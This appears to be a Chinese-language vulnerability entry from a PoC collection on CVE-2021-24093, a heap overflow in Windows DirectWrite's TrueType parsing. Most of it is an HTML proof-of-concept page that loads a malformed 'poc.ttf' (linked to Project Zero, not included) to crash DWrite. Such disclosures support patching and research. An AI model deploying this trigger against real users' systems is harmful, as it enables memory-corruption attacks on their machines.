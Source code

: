 # Microsoft Graphics Components 代码执行漏洞 (CVE-2021-24093)

Microsoft Graphics Components是美国微软（Microsoft）公司的图形驱动组件。 Microsoft Windows 图形组件中存在安全漏洞.CVE-2021-24093漏洞基于DirectWrite堆的缓冲区溢出，驻留在特制TrueType字体的处理中。

当加载并光栅化具有损坏的“maxp”表的格式错误的TrueType字体时，DWrite!fsg_ExecuteGlyph函数崩溃。

**PoC：**


```html
<html>
   <head>
    <style>
      @font-face { font-family: custom_font; src: url('poc.ttf'); } 
      span {
         font-family: custom_font;
         font-size: 10pt;
         font-variation-settings: 'WIND' 359;
      }
    </style>
    <script>
      alert('Press OK to load the font');
    </script>
   </head>
   <body>
      <span>Æ</span>
   </body>
</html>
```

**poc.ttf:**

https://bugs.chromium.org/p/project-zero/issues/detail?id=2123

ref:

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2123
* https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=478314
* https://www.anquanke.com/vul/id/2344115
